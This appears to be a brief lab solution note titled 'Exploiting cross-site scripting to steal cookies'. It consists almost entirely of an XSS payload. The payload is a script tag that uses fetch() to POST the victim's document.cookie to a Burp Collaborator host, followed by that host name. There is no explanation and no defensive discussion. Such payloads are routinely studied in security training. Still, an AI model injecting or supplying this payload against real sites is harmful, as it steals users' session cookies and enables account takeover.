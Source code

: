 # XSS

## Exploiting cross-site scripting to steal cookies

<script>
fetch('https:p9z114dhnywgf8ct7kwnwidujlpid7.burpcollaborator.net', {
method: 'POST',
mode: 'no-cors',
body:document.cookie
});
</script>

p9z114dhnywgf8ct7kwnwidujlpid7.burpcollaborator.net